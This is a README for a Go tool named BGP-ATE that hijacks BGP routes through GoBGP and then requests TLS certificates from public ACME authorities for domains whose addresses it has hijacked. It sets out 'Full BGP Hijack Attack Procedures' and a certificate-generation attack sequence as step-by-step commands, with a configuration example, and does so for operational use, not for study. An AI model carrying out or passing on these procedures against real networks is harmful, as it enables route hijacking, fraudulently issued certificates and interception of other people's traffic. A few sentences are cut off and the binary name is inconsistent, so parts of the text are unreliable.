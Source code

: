 # BGP-ATE

A tool for BGP route manipulation and certificate generation.

## Features

- BGP route manipulation
- Certificate generation with various 
- IP helper route management
- Support for both standard and large communities
- External Account Binding (EAB) support

## Prerequisites

- Go 1.21 or later
- GoBGP v3.37.0 or later

## Installation

1. Install GoBGP:
```bash
# Make the setup script executable
chmod +x setup.sh

# Run the setup script
./setup.sh

# Add gobgpbin to your PATH (optional)
export PATH="$(pwd)/gobgpbin:$PATH"
```

2. Install the BGP control system:
```bash
go build
```

## Usage

1. Start the GoBGP daemon:
```bash
sudo gobgpbin/gobgpd -f gobgpd.conf
```
2. Run the control system:
```bash
./bgpaite
```

## Configuration

The system uses `gobgpd.conf` for GoBGP configuration and `config.json` file for configuration. Here's an example:

```json
{
    "communities": ["large:18041:999:2"],
    "time": 10,
    "timeBeforeGeneratingCertificate": 5,
    "iphelperGateway": "192.168.99.1",
    "caDirUrl": "https://acme-v02.api.letsencrypt.org/directory",
    "eabKid": "",
    "eabHmacKey": ""
}
```

### Configuration Options

- `communities`: List of BGP communities (standard or large format)
  - Standard format: `"AS:value"` (e.g., `"65000:123"`)
  - Large format: `"large:AS:value1:value2"` (e.g., `"large:18041:999:2"`)
- `time`: Time in seconds to wait after hijacking
- `timeBeforeGeneratingCertificate`: Time in seconds to wait before generating certificate
- `iphelperGateway`: Gateway IP for iphelper command (optional, will use interface's default gateway if not specified)
- `caDirUrl`: ACME CA directory URL (optional, defaults to Let's Encrypt production)
- `eabKid`: External Account Binding Key ID (optional)
- `eabHmacKey`: External Account Binding HMAC Key (optional)

### CA Directory URLs

The `caDirUrl` field supports different ACME CA servers:

1. Let's Encrypt Production:
```json
"caDirUrl": "https://acme-v02.api.letsencrypt.org/directory"
```

2. Buypass:
```json
"caDirUrl": "https://api.buypass.com/acme/directory"
```

3. Google Public CA
```json
"caDirUrl": "https://dv.acme-v02.api.pki.goog/directory"
```
use `gcloud publicca external-account-keys create` to generate eabKid & eabHmacKey.

4. ZeroSSL
```json
"caDirUrl": "https://acme.zerossl.com/v2/DV90"
```

If `caDirUrl` is not specified, the tool will use Let's Encrypt's production server by default.

## Usage

### Building
```bash
go build
```

### Clear Routes
```bash
./bgpate clear
```

### Hijack Routes
```bash
./bgpate hijack <ip> [--dryrun]
```

### Generate Certificate
```bash
./bgpate certgen <domain> [--dryrun] [--ip <ip1,ip2,...>]
```

### IP Helper
```bash
./bgpate iphelper <ip> [-d]
```

## Full BGP Hijack Attack Procedures

1. Run 
```bash
./bgpate iphelper <ip>
```

2. 
```bash
./bgpate hijack <ip>
```

3. Run curl to confirm the hijacking is success
```
curl --interface <ip> https://1.1.1.1/cdn-cgi/trace
```

4. Remove IP configuration on the system
```bash
./bgpate iphelper <ip> -d
```

## Full Certification Generating Attack Procedures
# Use domain resolution (original behavior)
```bash
./bgpate certgen example.com
```

# Use domain resolution with dryrun
```bash
./bgpate certgen example.com --dryrun
```

# Override with specific IPs (comma-separated)
```bash
./bgpate certgen example.com --ip 192.168.1.1,2001:db8::1
```

# Override with IPs and dryrun
```bash
./bgpate certgen example.com --dryrun --ip 192.168.1.1,2001:db8::1
```

## Notes

- The tool will automatically clean up routes when interrupted (Ctrl+C)
- For certificate generation, make sure port 80 is available for HTTP-01 challenge
- When using EAB, both `eabKid` and `eabHmacKey` must be provided

